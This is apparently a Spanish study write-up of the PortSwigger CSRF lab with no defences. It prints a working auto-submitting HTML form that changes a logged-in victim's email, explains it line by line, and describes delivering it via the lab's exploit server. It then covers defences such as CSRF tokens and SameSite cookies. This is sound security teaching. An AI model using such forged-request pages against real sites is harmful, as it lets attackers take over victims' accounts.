



# PortSwigger Web Security Academy — CSRF Lab 1

# CSRF vulnerability with no defenses

**Categoría:** CSRF  
**Lab:** CSRF vulnerability with no defenses  
**URL:** https://portswigger.net/web-security/csrf/lab-no-defenses  
**Objetivo:** cambiar el email de la víctima usando un ataque CSRF.  
**Credenciales propias:** `wiener:peter`

---

## Índice

1. Contexto del laboratorio  
2. Qué es CSRF  
3. Por qué el navegador es la pieza clave  
4. Cookies, sesión y autenticación  
5. Diferencia entre request autenticada y request intencional  
6. Qué defensa falta en este lab  
7. Análisis de la funcionalidad vulnerable  
8. Captura de la petición de cambio de email  
9. Por qué esa petición es explotable  
10. Generación del CSRF PoC con Burp Suite  
11. Explicación línea por línea del HTML malicioso  
12. Uso del exploit server  
13. Entrega del exploit a la víctima  
14. Confirmación de resolución  
15. Flujo completo del ataque  
16. Qué habría impedido el ataque  
17. Errores comunes al entender CSRF  
18. Resumen final

---

# 1. Contexto del laboratorio

El laboratorio indica que la funcionalidad de cambio de email es vulnerable a CSRF.

La aplicación permite iniciar sesión con:

```text
wiener:peter
```

Una vez autenticados, podemos acceder a `My account` y cambiar el correo electrónico de nuestra cuenta.

El objetivo no es cambiar nuestro propio email manualmente. El objetivo real es crear una página maliciosa que fuerce al navegador de otra persona, la víctima, a enviar una petición de cambio de email sin que esa persona lo haga de forma consciente.

Captura inicial del laboratorio:



---

# 2. Qué es CSRF

CSRF significa:

```text
Cross-Site Request Forgery
```

En español:

```text
Falsificación de petición en sitios cruzados
```

El nombre suena más complejo de lo que realmente es. La idea base es esta:

> Un atacante consigue que el navegador de una víctima autenticada envíe una petición a una aplicación vulnerable.

La víctima está autenticada en la aplicación legítima. El atacante no necesita conocer su contraseña ni robar su cookie. Solo necesita que la víctima visite una página controlada por el atacante.

Esa página maliciosa contiene HTML que envía una petición a la aplicación vulnerable.

---

# 3. Por qué el navegador es la pieza clave

El navegador tiene una característica fundamental:

```text
Envía automáticamente las cookies correspondientes al dominio de destino.
```

Esto es normal y necesario para que las sesiones funcionen.

Por ejemplo, si estás logueado en:

```text
https://example.com
```

y el navegador tiene una cookie de sesión para ese dominio, cuando cualquier página provoque una petición hacia `https://example.com`, el navegador adjuntará esa cookie automáticamente.

El atacante no escribe la cookie en el HTML. El atacante ni siquiera la ve.

El navegador la añade solo.

Esta es la raíz del problema.

---

# 4. Cookies, sesión y autenticación

Cuando inicias sesión, el servidor suele responder con algo parecido a:

```http
Set-Cookie: session=abc123xyz; Secure; HttpOnly
```

El navegador guarda esa cookie.

Después, cuando haces una acción autenticada, por ejemplo cambiar el email, el navegador envía:

```http
Cookie: session=abc123xyz
```

Entonces el servidor identifica tu sesión y dice:

```text
Esta petición pertenece al usuario autenticado.
```

Eso está bien.

El problema aparece cuando el servidor asume además esto:

```text
Si la petición viene con una cookie válida, entonces el usuario quiso hacer esa acción.
```

Esa suposición es falsa.

Una petición puede estar autenticada y aun así haber sido provocada por un atacante.

---

# 5. Request autenticada vs request intencional

Esta diferencia es importantísima.

Una request autenticada significa:

```text
La petición incluye una sesión válida.
```

Una request intencional significa:

```text
El usuario realmente quiso realizar esa acción.
```

CSRF existe cuando el servidor confunde ambas cosas.

En este laboratorio, el servidor recibe una petición con cookie válida y cambia el email. Pero no comprueba si esa petición fue generada desde el formulario legítimo de la aplicación.

---

# 6. Qué defensa falta en este lab

El laboratorio se llama:

```text
CSRF vulnerability with no defenses
```

Eso significa que no hay defensas como:

```text
Token CSRF
Validación de Origin
Validación de Referer
Cookies SameSite estrictas
Reautenticación para acciones sensibles
```

La ausencia más importante es el token CSRF.

Un token CSRF es un valor secreto generado por el servidor y asociado a la sesión del usuario. El formulario legítimo lo incluye, pero una página externa no puede leerlo.

Ejemplo:

```html
<input type="hidden" name="csrf" value="A81F93KD2P">
```

Si el servidor exigiera ese token, el atacante no podría construir una petición válida porque no conocería su valor.

---

# 7. Análisis de la funcionalidad vulnerable

Entramos en `My account` con:

```text
wiener:peter
```

Allí encontramos una funcionalidad para cambiar el email.

La acción consiste en enviar un formulario con un nuevo email.

En una aplicación segura, esta funcionalidad debería requerir como mínimo un token CSRF.

En este lab, la petición solo necesita el parámetro `email`.

---

# 8. Captura de la petición de cambio de email

Activamos Burp Suite y FoxyProxy.

Cambiamos el email desde la cuenta y capturamos la petición.

La petición vulnerable tiene esta estructura:

```http
POST /my-account/change-email HTTP/1.1
Host: 0aa300ec030337158006037700350008.web-security-academy.net
Cookie: session=...
Content-Type: application/x-www-form-urlencoded
Origin: https://0aa300ec030337158006037700350008.web-security-academy.net
Referer: https://0aa300ec030337158006037700350008.web-security-academy.net/my-account?id=wiener

email=payload@gmail.com
```

Lo importante está en el body:

```text
email=payload@gmail.com
```

No vemos nada como:

```text
csrf=...
```

Eso confirma que no hay token CSRF en la acción.

---

# 9. Por qué esa petición es explotable

La petición cambia el email usando solo:

```text
Cookie de sesión
+
parámetro email
```

La cookie la añade automáticamente el navegador de la víctima.

El parámetro `email` lo puede controlar el atacante mediante un formulario HTML.

Por tanto, el atacante puede construir una página que haga esto:

```text
POST /my-account/change-email
email=payload@gmail.com
```

Cuando la víctima visite esa página, su navegador añadirá su cookie de sesión real.

El servidor recibirá una petición completamente válida desde el punto de vista de autenticación.

---

# 10. Generación del CSRF PoC con Burp Suite

Mandamos la petición al Repeater.

Luego hacemos clic derecho sobre la request y seleccionamos:

```text
Engagement Tools
Generate CSRF PoC
```

Captura:



Burp crea automáticamente un HTML que reproduce la petición.

Esto ahorra tiempo y evita errores manuales al reconstruir formularios.

---

# 11. HTML malicioso generado

El HTML generado fue:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aa300ec030337158006037700350008.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="payload&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Ahora lo explicamos línea por línea.

---

## 11.1 Etiqueta `<html>`

```html
<html>
```

Indica el comienzo del documento HTML.

No tiene nada ofensivo por sí sola. Solo estructura la página.

---

## 11.2 Comentario de Burp

```html
<!-- CSRF PoC - generated by Burp Suite Professional -->
```

Es un comentario.

No se ejecuta.

Solo indica que Burp generó esta prueba de concepto.

---

## 11.3 Apertura del body

```html
<body>
```

Dentro del `body` está el contenido de la página.

En este caso, el contenido importante es el formulario malicioso.

---

## 11.4 Formulario HTML

```html
<form action="https://0aa300ec030337158006037700350008.web-security-academy.net/my-account/change-email" method="POST">
```

Esta línea crea un formulario.

El atributo `action` indica el destino al que se enviará la petición:

```text
/my-account/change-email
```

El atributo `method="POST"` indica que se enviará por POST, igual que la petición legítima capturada.

Esto es importante porque si el endpoint espera POST, un GET no serviría.

---

## 11.5 Campo oculto email

```html
<input type="hidden" name="email" value="payload&#64;gmail&#46;com" />
```

Este input genera el parámetro:

```text
email=payload@gmail.com
```

Aunque aparece codificado como:

```text
payload&#64;gmail&#46;com
```

el navegador interpreta:

```text
&#64;  → @
&#46;  → .
```

Por tanto, el valor real enviado es:

```text
payload@gmail.com
```

`type="hidden"` significa que el campo no se muestra al usuario, pero se envía igual en la petición.

---

## 11.6 Botón submit

```html
<input type="submit" value="Submit request" />
```

Este botón permitiría enviar el formulario manualmente.

Pero en el exploit real no queremos depender de que la víctima pulse nada.

Por eso se añade JavaScript.

---

## 11.7 `history.pushState`

```javascript
history.pushState('', '', '/');
```

Esto modifica la URL visible en el navegador.

No es imprescindible para el ataque.

Sirve para hacer que la URL parezca más limpia o menos sospechosa.

El ataque funcionaría aunque quitáramos esta línea.

---

## 11.8 Auto-submit

```javascript
document.forms[0].submit();
```

Esta es la línea clave.

Significa:

```text
envía automáticamente el primer formulario de la página
```

`document.forms[0]` hace referencia al primer formulario.

`.submit()` lo envía.

Resultado:

```text
La víctima visita la página
↓
el formulario se envía solo
↓
se dispara el CSRF
```

---

# 12. Qué ocurre en el navegador de la víctima

Cuando la víctima visita el exploit server, el navegador carga el HTML.

Después ejecuta el script:

```javascript
document.forms[0].submit();
```

Entonces el navegador envía automáticamente:

```http
POST /my-account/change-email HTTP/1.1
Host: 0aa300ec030337158006037700350008.web-security-academy.net
Cookie: session=COOKIE_DE_LA_VICTIMA
Content-Type: application/x-www-form-urlencoded

email=payload@gmail.com
```

La parte clave es:

```http
Cookie: session=COOKIE_DE_LA_VICTIMA
```

Esa cookie no está en el HTML del atacante.

La añade el navegador porque la víctima ya estaba logueada.

---

# 13. Uso del exploit server

Entramos en el exploit server del laboratorio.

En el campo de respuesta pegamos el HTML.

Luego pulsamos:

```text
Store
```

Esto guarda el exploit.

Después pulsamos:

```text
Deliver to victim
```

Esto simula que la víctima visita nuestra página maliciosa.

---

# 14. Por qué se resuelve al hacer Deliver to victim

El laboratorio tiene una víctima simulada.

Cuando pulsamos `Deliver to victim`, PortSwigger hace que esa víctima visite el exploit.

La víctima está autenticada en el laboratorio.

Entonces ocurre:

```text
visita exploit server
↓
se carga HTML malicioso
↓
auto-submit del formulario
↓
POST a /my-account/change-email
↓
cookie de la víctima añadida automáticamente
↓
email cambiado
↓
lab resuelto
```

---

# 15. Confirmación

El laboratorio queda marcado como solved.

Captura:



---

# 16. Flujo completo del ataque

```text
1. El usuario inicia sesión en la aplicación vulnerable.
2. El servidor entrega una cookie de sesión.
3. El navegador guarda esa cookie.
4. El atacante prepara un formulario HTML malicioso.
5. El formulario apunta al endpoint vulnerable.
6. El formulario incluye el nuevo email como campo oculto.
7. El formulario se auto-envía con JavaScript.
8. La víctima visita la página del atacante.
9. El navegador envía el formulario automáticamente.
10. El navegador adjunta la cookie de sesión de la víctima.
11. El servidor recibe una request autenticada.
12. El servidor no verifica token CSRF.
13. El servidor cambia el email.
14. El laboratorio se marca como resuelto.
```

---

# 17. Qué habría impedido este ataque

## 17.1 Token CSRF

Si la request necesitara:

```text
csrf=valor_secreto
```

el atacante no podría saber ese valor.

---

## 17.2 Validación de Origin

El servidor podría comprobar:

```http
Origin: https://sitio-legitimo
```

Si la petición viene desde el exploit server, el Origin sería distinto.

---

## 17.3 Validación de Referer

También podría comprobar:

```http
Referer: https://sitio-legitimo/...
```

No es tan robusto como el token, pero ayuda.

---

## 17.4 SameSite cookies

Si la cookie tuviera:

```http
SameSite=Strict
```

el navegador no la enviaría en una petición cross-site.

Con:

```http
SameSite=Lax
```

muchos POST cross-site también quedarían mitigados.

---

## 17.5 Reautenticación

Para acciones sensibles, la aplicación puede pedir contraseña de nuevo.

Ejemplo:

```text
Para cambiar email, introduce tu contraseña actual.
```

Eso frena CSRF porque el atacante no conoce la contraseña.

---

# 18. Errores comunes al entender CSRF

## Error 1: “CSRF roba cookies”

No.

CSRF no roba cookies.

CSRF abusa de que el navegador las envía automáticamente.

---

## Error 2: “El atacante necesita saber la sesión”

No.

El atacante no necesita conocer la cookie.

Solo necesita que el navegador de la víctima la tenga.

---

## Error 3: “Si es POST, ya está protegido”

No.

POST no protege contra CSRF.

Un formulario HTML puede enviar POST perfectamente.

---

## Error 4: “El usuario tiene que pulsar algo”

No necesariamente.

Con JavaScript:

```javascript
document.forms[0].submit();
```

el formulario se envía solo.

---

## Error 5: “CORS bloquea CSRF”

No exactamente.

CORS bloquea que JavaScript lea respuestas cross-origin, pero no impide que formularios HTML envíen peticiones cross-site.

CSRF no necesita leer la respuesta.

Solo necesita provocar la acción.

---

# 19. Diferencia entre CSRF y CORS

CORS controla si un origen puede leer respuestas de otro origen mediante JavaScript.

CSRF no necesita leer nada.

Solo necesita enviar.

Por eso una mala configuración de CORS y CSRF son problemas distintos.

---

# 20. Diferencia entre CSRF y XSS

## CSRF

```text
El atacante fuerza al navegador a enviar una request.
```

## XSS

```text
El atacante ejecuta JavaScript dentro de la web víctima.
```

Con XSS normalmente puedes robar tokens CSRF o ejecutar acciones directamente.

Con CSRF puro, dependes de que no haya defensas.

---

# 21. Payload final del laboratorio

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aa300ec030337158006037700350008.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="payload&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

# 22. Resumen corto

Este laboratorio demuestra una vulnerabilidad CSRF básica.

La aplicación permite cambiar el email con una petición POST autenticada, pero sin token CSRF.

El atacante crea un formulario HTML malicioso que envía esa petición automáticamente.

Cuando la víctima visita la página del exploit server, su navegador añade la cookie de sesión y el servidor cambia el email.

---

# 23. Frase clave

```text
CSRF no consiste en robar la sesión.
Consiste en usar el navegador autenticado de la víctima para ejecutar una acción que la víctima no quería realizar.
```

---

# 24. Idea definitiva

El fallo real es este:

```text
El servidor acepta una acción sensible basándose solo en que la request tiene una cookie válida.
```

Pero una cookie válida solo prueba autenticación.

No prueba intención.

Esa diferencia es exactamente lo que explota CSRF.

